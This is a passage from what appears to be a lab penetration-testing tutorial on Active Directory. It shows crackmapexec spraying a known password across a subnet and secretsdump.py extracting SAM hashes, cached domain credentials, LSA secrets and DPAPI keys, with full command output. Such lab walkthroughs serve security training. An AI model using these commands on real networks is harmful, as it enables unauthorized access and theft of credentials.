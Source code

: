 ```c
Ticket : 0x00000012 - aes256_hmac ; kvno = 3 [...]
Group 1 - Client Ticket ?
```

### **Pass The Password**

In this technique, you are having a valid username and password on one machine. So we are going to pass the password to the whole machines in the domain to see if this user has access over anther machines or not.

```c
root@kali: crackmapexec smb 192.168.219.0/24 -u fcastle -d MARVEL.local -p Password1
SMB         192.168.219.131 445    HYDRA-DC         [*] Windows 10.0 Build 17763 x64 (name:HYDRA-DC) (domain:MARVEL.local) (signing:True) (SMBv1:False)
SMB         192.168.219.130 445    THEPUNISHER      [*] Windows 10.0 Build 19041 x64 (name:THEPUNISHER) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         192.168.219.132 445    SPIDERMAN        [*] Windows 10.0 Build 19041 x64 (name:SPIDERMAN) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         192.168.219.131 445    HYDRA-DC         [+] MARVEL.local\fcastle:Password1 
SMB         192.168.219.130 445    THEPUNISHER      [+] MARVEL.local\fcastle:Password1 (Pwn3d!)
SMB         192.168.219.132 445    SPIDERMAN        [+] MARVEL.local\fcastle:Password1 (Pwn3d!)
```

Now, we have got an access with the same user on anther machine SPIDERMAN.

### **Dumping Hashes**

**Using scretdump.py**

```bash
root@kali: secretsdump.py marvel/fcastle:Password1@192.168.219.130
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xf604419dffcf03f36a1eaf70ceeb5808
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:81483d09ad1125d52a72c6ab40ded2f5:::
Muhammad:1001:aad3b435b51404eeaad3b435b51404ee:acbc1d7e615194dfb894cb03e0a9c91f:::
[*] Dumping cached domain logon information (domain/username:hash)
MARVEL.LOCAL/fcastle:$DCC2$10240#fcastle#e6f48c2526bd594441d3da3723155f6f
MARVEL.LOCAL/Administrator:$DCC2$10240#Administrator#35763304a8f65310e97fc21285d3184d
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
MARVEL\THEPUNISHER$:aes256-cts-hmac-sha1-96:88dec67ed91edafad653edf12abc5ab4fad7b5801dcfae25190b85b758be78f0
MARVEL\THEPUNISHER$:aes128-cts-hmac-sha1-96:3a62a3f16b6f5c661e79009dd52652bd
MARVEL\THEPUNISHER$:des-cbc-md5:38b067ad8097abd0
MARVEL\THEPUNISHER$:aad3b435b51404eeaad3b435b51404ee:3b12aad6f5746a2de05b7a8b18d76dd2:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x733cfa0609e7af0b93b12be1b3ef343eb8ac95bf
dpapi_userkey:0x76667049c9be8cb6bdf731f27f9c798f38492637
[*] NL$KM 
 0000   BA 6B FB 0C 66 FE 19 5E  C3 15 CD 43 7C 66 81 D3   .k..f..^...C|f..
 0010   CB A9 10 7F F4 6B 74 CD  66 88 E1 7E 2F 0E F4 46   .....kt.f..~/..F
 0020   73 08 AF 6D 08 72 07 91  B1 C3 4B 07 11 AE 1D 64   s..m.r....K....d
 0030   59 72 2D 78 CA A7 CC 7A  ED 62 D7 F1 5B 51 0F A2   Yr-x...z.b..[Q..
NL$KM:ba6bfb0c66fe195ec315cd437c6681d3cba9107ff46b74cd6688e17e2f0ef4467308af6d08720791b1c34b0711ae1d6459722d78caa7cc7aed62d7f15b510fa2
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
```